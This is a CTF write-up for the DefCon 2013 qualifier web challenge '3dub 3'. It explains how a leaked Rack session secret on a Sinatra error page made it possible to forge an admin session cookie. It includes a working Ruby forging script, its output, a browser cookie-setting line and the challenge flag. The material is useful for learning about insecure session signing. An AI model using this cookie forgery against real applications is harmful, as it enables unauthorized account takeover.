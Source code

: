 ```yaml
---
layout: post
title: "DefCon CTF Qualifier 2013 3dub 3 Write Up"
date: 2013-06-28 12:00:00
categories: ctf web
comments: true
---
```


mirror of [http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/](http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/)

First of all, we got a `secrets` link and `log in or create user` form. When we create and login, the website redirect us to the 'secrets' page like this

> Secrets
> 
> name owner actions
> 
> key admin [show](#)
> 
> nothing asdf [show](#)
> 
> [new secret](#)

we've got some links to see secrets owned by other users, include the `admin`, or easily add a new secret ourselves.

Having a try to open the admin's secret, we got a 500 Error Page with some error stack, which powered by the Ruby framework `Sinatra`.

From the very first sight of the page, it said `unauthorized` as the error message and a piece of source code was provided

``` ruby
    end

    redirect '/secrets'
end

get '/secrets/:id' do
    s = SECRETS[params[:id].to_i]
raise "unauthorized" if session[:user_name] != s.username

haml :secret, locals: {secret: s}
end

helpers do
    def current_user
        return nil unless session[:user_name]
```

<!-- more -->

It meant that I'm not the secret's holder. then have a look at the whole page, and you would find some environment variable in the `Rack ENV` section, partly like

* rack.session

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.session.options

``` ruby
{:path=>"/", :domain=>nil, :expire_after=>nil, :secure=>false, :httponly=>true, :defer=>false, :renew=>false, :sidbits=>128, :secure_random=>SecureRandom, :secret=>"wroashsoxDiculReejLykUssyifabEdGhovHabno", :coder=>#}
```

* rack.session.unpacked_cookie_data

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.request.cookie_hash

``` ruby
{"rack.session"=>"BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n--d637305e23d6693f3ebe276b292293c7ff0b72e6"}
```

we've got some message:

the cookie `rack.session` is some way encoded of `rack.session.unpacked_cookie_data`, which is totally the same as env variable rack.session, and the coder mybe `Rack::Session::Cookie::Base64::Marshal`, secret (if any) maybe `wroashsoxDiculReejLykUssyifabEdGhovHabno`

By seeking the source code of rack, we found this [https://github.com/rack/](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb)

``` ruby
    @secrets = options.values_at(:secret, :_old_secret).compact
    # some code else
    session_data = coder.encode(session)
    if @secrets.first
        session_data << "--#{generate_hmac(session_data, @secrets.first)}"
    end 
    # some code else
    def generate_hmac(data, secret)
        OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
```

Once the server received a request, it would confirm the validation of the cookie, reset the session if digest mismatch

``` ruby
if @secrets.size > 0 && session_data
    session_data, digest = session_data.split("--")
    session_data = nil unless digest_match?(session_data, digest)
end
```

Meanwhile, we knew the whole process of the session checking. thus, I've wrote a ruby script to figure out this stuff with this way

* `unpack(decode)` the cookie to origin session data
* modify session_data.user_name to `admin`
* `repack(encode)` the session data to cookie string format
* calculate a new digest of the session data then build the cookie

### code

``` ruby
#!/usr/bin/ruby
#Author: xelz@blue-lotus

require 'openssl'

# part of rack/lib/rack/session/cookie.rb
class Base64
    def encode(str)
        [str].pack('m')
    end

    def decode(str)
        str.unpack('m').first
    end

    # Encode session cookies as Marshaled Base64 data
    class Marshal < Base64
        def encode(str)
            super(::Marshal.dump(str))
        end

        def decode(str)
            return unless str
            ::Marshal.load(super(str)) rescue nil
        end
    end
end

def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

exit() unless ARGV[0]

data = ARGV[0].split('--')[0]
# puts 'data is:'
# puts data, "\n"

coder = Base64::Marshal.new
data = coder.decode(data)
data['user_name'] = "admin"
data = coder.encode(data)
# puts 'modified data is:'
# puts data, "\n"
data = data

secret = 'wroashsoxDiculReejLykUssyifabEdGhovHabno'
# puts 'new digest string is:'
digest = generate_hmac(data, secret)
# puts digest, "\n"

puts 'cookie is'
cookie = data.gsub("\n", "%0A") + '--' + digest
puts cookie
```

run the script like this:

``` bash
xelz@blue-lotus:defconctf$echo -en 'BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n' | awk '{print $1"\\"}' | xargs ./hypeman.rb
cookie is
BAh7CSINdHJhY2tpbmd7CCIZSFRUUF9BQ0NFUFRfRU5DT0RJTkciLWVkMmIz%0AY2E5MGE0ZTcyMzQwMjM2N2ExZDE3YzhiMjgzOTI4NDIzOTgiFEhUVFBfVVNF%0AUl9BR0VOVCItOWMxZjdmOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlk%0ANDhiYiIZSFRUUF9BQ0NFUFRfTEFOR1VBR0UiLWNhNGFlZTBlODEyMTRhZGRj%0ANWZiMTI4NzdjZjllNWM4YjhiZWI3ZDYiCWNzcmYiRTVmNmQ4NWI3ZTFiMGE0%0AOGM4YTg3ZTQyODAzYWMxNjZjZjdkNjAxMjFhZmQyNGJhOTM3YmY2NWZhNGY4%0AOTg5YzYiD3Nlc3Npb25faWQiRTM1M2M2NjUyNWEwMWZhMGIzODU2Y2I5ZjM0%0AYWFlMmFhOWEzNmFkNGNkZTAyZGFlYTBjY2ZiYWY1NjZkZGJiNWEiDnVzZXJf%0AbmFtZSIKYWRtaW4=%0A--4bd0a545e155460f804aff9df3e80e20fdffa07f
```

then modify the cookie with the new value, using any tool you like such as Firebug(for Firefox), WebInspector(for Webkit Based Browser), Fiddler(under IE7), Burpsuite(Java Based for any platform), I'd like to use the Javascript Console in Chrome:

``` javascript
document.cookie='rack.session=xxx;'
```

refresh the page, and enjoy :)

### key

> watch out for this Etdeksogav

